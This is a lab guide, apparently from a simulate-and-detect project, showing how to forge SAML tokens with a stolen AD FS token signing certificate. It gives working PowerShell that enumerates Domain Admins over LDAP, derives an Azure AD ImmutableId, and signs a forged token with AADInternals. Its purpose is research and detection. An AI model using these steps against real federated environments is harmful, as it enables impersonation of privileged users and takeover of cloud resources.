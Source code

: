 # Forge SAML Tokens with Stolen Active Directory Federation Service (AD FS) Token Signing Certificate

If a threat actor gets to steal the AD FS token signing certificate from an AD FS server, it is just a matter of time until it is used to sign SAML tokens and impersonate users in a federated environments. 

## Main Steps
1.	Enumerate privileged accounts.
2.	Forge SAML tokens.

## Enumerate Privileged Accounts
Let's start by identifying privileged accounts that we could impersonate and that could also have privileged access to resources in the cloud. In this lab guide, the default domain admin account named `pgustavo` was also the account that was assigned the Azure AD built-in Global Administrator role. Therefore, we can start by enumerating the members of the `Domain Admins` group.

There are several ways and protocols to accomplish this. However, for the purpose of this basic step, we are going to use LDAP search queries.

### Lightweight Directory Access Protocol (LDAP)

**Preconditions**
* Endpoint: ADFS01
    * Authorization: AD FS service account or local admin
* Endpoint: DC01
    * Service running: Active directory domain services
    * Port open: 389

**Enumerate Members of the Domain Admins Group**

Start PowerShell as administrator and run the following commands:

```PowerShell
# Get Domain Name
$DomainName = (Get-WmiObject Win32_ComputerSystem).Domain 
$arr = ($DomainName).split('.')
$DNDomain = [string]::Join(",", ($arr | % { "DC={0}" -f $_ }))

# Create LDAP Search
$ADSearch = New-Object System.DirectoryServices.DirectorySearcher
$ADSearch.SearchRoot = "LDAP://$DomainName/$DNDomain"
$ADSearch.Filter = "(&(objectCategory=user)(memberOf=CN=Domain Admins,CN=Users,$DNDomain))"
$ADUsers = $ADSearch.FindAll()
$Results = @()

# Process Results
ForEach($ADUser in $ADUsers){
  If($ADUser){
    $Object = New-Object PSObject -Property @{
      Samaccountname = ($ADUser.Properties).samaccountname
      ObjectGuid  = ([guid]($ADUser.Properties).objectguid[0]).guid
    }
    $Results += $Object
  }
}
# Display results
$Results | Format-Table Samaccountname,ObjectGuid
```

![](../../resources/images/simulate_detect/credential-access/signSAMLToken/2021-05-19_01_get_domain_admins.png)

## Forge SAML Token
Once again, a threat actor would most likely do this outside of the compromised organization. 
In the last steps from the previous document ([Local Export AD FS Token Signing Certificate](localExportADFSTokenSigningCertificate.md)), the certificate was exported to the `C:\ProgramData` directory with the name `ADFSTokenSigningCertificate.pfx`.

### Convert User AD Object GUID to its Azure AD Immutable ID representation
Once we identify the privileged user we want to impersonate, we need to obtain the immutable ID of the account AD object GUID. The `ImmutableId` is the base64-encoded representation of a domain user GUID in Azure AD.

```PowerShell
$ObjectGUID = "07cd318c-b6ba-432e-9936-b992d7c78388"
$ImmutableId = [convert]::ToBase64String(([guid]$ObjectGUID).ToByteArray())
```

![](../../resources/images/simulate_detect/credential-access/signSAMLToken/2021-05-19_02_get_immutable_id.png)

We are now ready to forge a SAML token for the privileged user.

### Sign a New SAML Token via AADInternals
If you have not installed AADInternals yet, open PowerShell as administrator and run the following:

```PowerShell
Install-Module –Name AADInternals –RequiredVersion 0.4.7 -Force
Import-Module –Name AADInternals
```

![](../../resources/images/simulate_detect/credential-access/signSAMLToken/2021-05-19_03_install_aadinternals.png)

Use the `New-AADIntSAMLToken` function to sign a new SAML token. We would need to pass the `ImmutableID`, the path to the token signing certificate and the issuer as parameters.

```PowerShell 
$ImmutableId = 'jDHNB7q2LkOZNrmS18eDiA=='
$Cert = 'C:\ProgramData\ADFSTokenSigningCertificate.pfx'
$Issuer = 'http://simulandlabs.com/adfs/services/trust/'
$SamlToken = New-AADIntSAMLToken -ImmutableID $ImmutableId -PfxFileName $Cert -PfxPassword "" -Issuer $Issuer
```

![](../../resources/images/simulate_detect/credential-access/signSAMLToken/2021-05-19_04_sign_saml_token.png)

You can use the new SAML token to request access to other resources such as the Microsoft Graph API.
